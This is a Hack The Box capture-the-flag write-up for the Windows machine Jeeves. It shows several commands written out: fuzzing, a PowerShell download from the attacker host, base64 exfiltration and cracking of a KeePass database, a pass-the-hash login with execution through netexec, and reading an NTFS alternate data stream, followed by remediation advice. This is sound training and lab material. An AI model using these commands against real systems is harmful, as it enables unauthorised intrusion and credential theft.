









HTB CPTS Track: Jeeves (medium)
Black-box Windows box: unauthenticated Jenkins gives RCE via the Groovy console, a cracked KeePass database leaks the Administrator NT hash, and root.txt hides in an NTFS alternate data stream.
contents
Jeeves is a standalone Windows box (no Active Directory, just WORKGROUP), and you start black-box with no credentials. The path is a clean chain of four moves that each teach something reusable:
- An unauthenticated Jenkins instance on a non-standard port, reachable only after directory fuzzing, hands you RCE through the Groovy Script Console.
- A KeePass database (
CEH.kdbx) sitting in the foothold user's Documents, master password cracked offline with john. - A KeePass entry that leaks the local Administrator's NT hash, used for a pass-the-hash login.
root.txttucked into an NTFS alternate data stream so it doesn't show up in a normaldir.
No assumed-breach creds here. Everything starts from an Nmap scan.
Enumeration¶
Nmap¶
sudo nmap -sV -sC -p- 10.129.66.183 -T5
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: guest
|_ message_signing: disabled (dangerous, but default)
Small attack surface, and it reads clearly: IIS on 80, SMB on 445 (WORKGROUP, so this is a standalone host, not a domain), and the odd one out is Jetty on 50000. Jetty is a Java servlet container, which usually means a Java app is bolted onto it. The hostname is JEEVES. SMB message signing is disabled but with a guest-level account there's nothing to relay to here, so I moved on.
Port 80¶

A static "Ask Jeeves" search page. I tried subdomain and directory fuzzing against it, no useful hits. Dead end for now.
Port 50000¶

Hitting the root gives a bare 404, which fits the Jetty fingerprint, the container is up but nothing is mapped at /. When the root 404s but the server is clearly alive, the app is usually mounted under a path, so I fuzzed for one:
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.129.66.183:50000/FUZZ -ic
askjeeves [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
One hit: /askjeeves, a 302 redirect. Following it lands on Jenkins:

The footer gives up the exact Jenkins version. I ran the version through a clanker to hunt for a matching CVE, but nothing clean came back for this build, so instead of chasing an exploit I just poked at the UI, and Jenkins itself hands you code execution if you can reach it unauthenticated.
Initial Foothold: Jenkins Groovy Script Console¶
The console is reachable without logging in, so no exploit needed, just the built-in feature:
- From the dashboard I clicked Build Executor Status:

- That lists the build nodes, including one named
master:

- On the
masternode I opened Script Console:

- The console runs Groovy, and a quick search turned up a Pure Groovy/Java reverse shell:

Why this works: the Jenkins Script Console executes arbitrary Groovy (which is just Java) directly on the controller, with no sandbox, running as the Jenkins service account. Anyone who can load
/scriptwithout authentication effectively has a shell on the box. It's not a "vulnerability" so much as an admin feature exposed to the wrong people, which is exactly why leaving Jenkins unauthenticated is fatal.
Running the Groovy reverse shell against my listener gave a shell as jeeves\kohsuke:

And then I read the flag from kohsuke's Desktop.
user.txt captured.
Privilege Escalation: KeePass to Administrator¶
I pulled winPEAS over to look for the usual escalation paths:
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.15.141:8000/winPEASx64.exe','C:\Users\kohsuke\winPEASx64.exe')"
winPEAS didn't hand me a privesc primitive, but manually exploring kohsuke's home directory turned up something more interesting in Documents, a KeePass database:
C:\Users\kohsuke\Documents>dir
09/18/2017 01:43 PM 2,846 CEH.kdbx
A .kdbx in a user's Documents is worth stopping for, a password manager on a box you already have a foothold on almost always stores something that escalates.
Exfiltrate the database¶
The file is tiny, so I base64-encoded it and pasted it back locally rather than standing up a transfer. Because base64 over a shell can silently mangle bytes, I hash the file on the target first and compare after decoding to confirm integrity:
powershell -c "Get-FileHash "C:\Users\kohsuke\Documents\CEH.kdbx" -Algorithm MD5 | select Hash"
powershell -c "[Convert]::ToBase64String((Get-Content -path CEH.kdbx -Encoding byte))"
A9mimmf7S7UBAAMAAhAAMcHy5r9xQ1C+WAUhavxa/wMEAAEAAAAEIAAa9AXMAPl53bm7OHxFlPzqL9A
... (full base64 blob trimmed) ...
zvcw=
Decode it back to a .kdbx locally:
echo "A9mimmf7S7UBAAMAAhAA...zvcw=" | base64 -d > CEH.kdbx
Crack the master password¶
Extract the KeePass master-key hash and crack it offline:
keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea...
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt keepass
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
moonshine1 (CEH)
1g 0:00:00:43 DONE (2026-09-25 18:37)
Master password: moonshine1.
The Administrator hash¶
Open the database with the cracked master password:

The Backup stuff entry doesn't hold a password, it holds what is clearly an NTLM hash. I can use that to perform Pass-The-Hash authentication.
Why pass-the-hash works: NTLM authentication never sends the plaintext password. The client proves it knows the NT hash by using it directly in the challenge-response. So a bare NT hash is a credential in its own right, if you have it, you authenticate as that account without ever knowing (or cracking) the password behind it.
Pass the hash as Administrator and confirm it lands:
netexec smb 10.129.66.183 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00' -x 'dir C:\Users\Administrator\Desktop'
SMB 10.129.66.183 445 JEEVES [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB 10.129.66.183 445 JEEVES [+] Executed command via atexec
SMB 10.129.66.183 445 JEEVES 12/24/2017 03:51 AM 36 hm.txt
SMB 10.129.66.183 445 JEEVES 11/08/2017 10:05 AM 797 Windows 10 Update Assistant.lnk
Pwn3d! confirms full Administrator access. (Note the WMIEXEC DCOM path failed, so netexec fell back to atexec, which is a scheduled-task-based exec method, no code change needed on my end.)
Root Flag: The Hidden Stream¶
Administrator's Desktop has hm.txt instead of the expected root.txt. Reading it is a taunt:
netexec smb 10.129.66.183 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00' -x 'type C:\Users\Administrator\Desktop\hm.txt'
SMB 10.129.66.183 445 JEEVES The flag is elsewhere. Look deeper.
I dropped an interactive PowerShell reverse shell (base64-encoded powershell -e ... run over the same PTH session) to poke around properly, then spent an embarrassing amount of time throwing every dir variant I could think of at the Desktop, dir /a, dir -force, dir /r, mixing cmd and PowerShell syntax, none of which showed anything new. The trick, which I got a nudge toward from flarycen (http://flarycen.net), is that "look deeper" means an alternate data stream hanging off hm.txt.
Why this hides the flag: NTFS lets any file carry extra named streams besides its main
:$DATAcontent. A normaldir(andtype, and Explorer) only ever shows the default stream, so data parked in a named stream is invisible to casual enumeration. You have to explicitly enumerate streams (Get-Item -Stream *) or read one by name (file:stream).
Enumerate the streams on hm.txt:
Get-Item .\hm.txt -Stream *
FileName: C:\Users\Administrator\Desktop\hm.txt
Stream Length
------ ------
:$DATA 36
root.txt 34
There it is, a root.txt stream riding on hm.txt. Read it by name:
Get-Content .\hm.txt:root.txt
<FLAG>
root.txt captured. Box owned.
Remediation¶
- Lock down Jenkins. Require authentication (enable security realm + authorization), never expose the Script Console to anonymous users, and don't publish Jenkins on an internet- or broadly-reachable port. Unauthenticated
/scriptis remote code execution by design. - Don't store credentials in password databases on the machines they protect, and don't reuse a weak master password (
moonshine1fell to rockyou in 43 seconds). If a KeePass DB must live on a host, its master key should be long and not in any wordlist. - Rotate the leaked Administrator hash and stop stashing NT hashes in note fields (that was a first for me).
References used: